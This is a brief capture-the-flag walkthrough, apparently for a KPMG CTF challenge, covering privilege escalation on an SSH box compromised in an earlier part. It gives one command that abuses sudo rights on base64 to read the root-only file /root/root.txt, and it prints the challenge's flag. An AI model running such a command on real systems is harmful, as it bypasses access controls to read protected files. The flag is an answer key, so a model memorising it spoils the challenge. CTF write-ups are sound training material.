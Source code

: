 
Congrats on solving the Part 1, this part is the privilege escalation of the SSH instance you compromised on the Part 1

Log in to the service using ssh with same credentials as part 1

![[Pasted image 20240811045237.png]]

use the following cmd

```shell
sudo /usr/bin/base64 /root/root.txt | base64 -d
```

![[Pasted image 20240811045256.png]]

The flag is `KPMG_CTF{Sql1_eXi5t5_iN_tH1S_Ch4l1eNgE}`
